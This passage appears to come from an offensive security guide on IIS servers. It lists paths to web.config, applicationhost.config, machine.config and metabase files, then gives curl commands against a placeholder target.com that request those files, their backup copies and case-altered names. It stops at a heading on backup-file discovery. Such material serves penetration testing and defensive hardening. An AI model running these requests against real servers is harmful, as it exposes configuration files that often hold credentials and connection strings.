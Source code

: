 ### IIS Configuration File Discovery
**Objective**: Locate and extract IIS configuration files

**Configuration Files**:
```bash
# Web.config files
/web.config
/Web.config
/WEB.CONFIG
/bin/web.config
/app_data/web.config
/admin/web.config
/test/web.config
/backup/web.config

# ApplicationHost.config
/windows/system32/inetsrv/config/applicationhost.config
/inetpub/temp/appPools/applicationhost.config

# Machine.config
/windows/microsoft.net/framework/v4.0.30319/config/machine.config
/windows/microsoft.net/framework64/v4.0.30319/config/machine.config

# IIS metabase files
/windows/system32/inetsrv/metabase.xml
/windows/system32/inetsrv/mbschema.xml
```

**Configuration File Extraction**:
```bash
# Direct access attempts
curl http://target.com/web.config
curl http://target.com/Web.config
curl http://target.com/WEB.CONFIG

# Backup file attempts
curl http://target.com/web.config.bak
curl http://target.com/web.config.old
curl http://target.com/web.config.backup
curl http://target.com/web.config.txt

# Case sensitivity bypass
curl http://target.com/WEB.CONFIG
curl http://target.com/Web.Config
curl http://target.com/web.CONFIG
```

## Backup File Discovery and Download

### Common Backup Patterns
**Objective**: Identify and download backup files from IIS servers
